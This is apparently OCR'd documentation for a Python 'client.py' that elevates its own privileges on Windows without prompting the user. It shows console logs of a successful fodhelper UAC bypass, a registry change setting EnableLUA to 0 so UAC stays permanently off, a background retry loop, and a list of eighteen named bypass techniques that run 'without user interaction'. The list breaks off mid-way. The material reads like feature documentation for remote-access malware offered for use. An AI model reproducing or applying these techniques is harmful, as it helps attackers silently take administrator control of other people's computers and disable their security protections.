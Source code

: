 ```bash

[ELEVATION] Retry 1/10 - attempting UAC bypass...
[UAC BYPASS] Trying method 1/20: bypass_uac_fodhelper_protocol...
✅ [UAC BYPASS] SUCCESS! Method bypass_uac_fodhelper_protocol worked!
✅ [ELEVATION] UAC bypass successful on retry 1!
✅ UAC permanently disabled!
```

**What happens:**
- ✅ Script runs without prompt
- ⚠️ Initial UAC bypass fails
- ✅ Registry auto-approve configured
- ✅ Background thread starts
- ✅ Keeps retrying every 30 seconds
- ✅ Eventually succeeds and disables UAC
- ✅ All automatic!

---

### **After Restart (UAC already disabled):**

```bash
python client.py

# Console output:
✅ Already running as admin!
🔧 Disabling UAC permanently...
✅ UAC permanently disabled - no more prompts!

[STARTUP] === SYSTEM CONFIGURATION STARTING ===
[STARTUP] Step 1: Disabling UAC...
[REGISTRY] Setting EnableLUA = 0 (disabling UAC)
[STARTUP] ✅ UAC disabled successfully
```

**What happens:**
- ✅ UAC already disabled from last run
- ✅ Admin privileges automatically granted
- ✅ No prompts needed
- ✅ All automatic!

---

## 📋 UAC BYPASS METHODS (20 Total)

All these run **automatically without user interaction**:

1. ✅ **fodhelper protocol** (Most reliable!)
2. ✅ **computerdefaults** (Registry hijack)
3. ✅ **eventvwr** (Event Viewer hijack)
4. ✅ **sdclt** (Backup & Restore hijack)
5. ✅ **ICMLuaUtil COM** (COM interface)
6. ✅ **SilentCleanup** (Scheduled task)
7. ✅ **WSReset** (Store reset hijack)
8. ✅ **slui** (License manager hijack)
9. ✅ **IColorDataProxy COM** (Display settings)
10. ✅ **DismCore.dll** (DISM hijack)
11. ✅ **WOW64 logger** (Logger hijack)
12. ✅ **Token manipulation** (Process token)
13. ✅ **NTFS junction** (Reparse points)
14. ✅ **COR_PROFILER** (.NET profiler)
15. ✅ **COM handler** (Handler hijack)
16. ✅ **Volatile env** (Environment vars)
17. ✅ **AppInfo service** (Service manipulation)
18. ✅ **Mock directory** (Directory trick)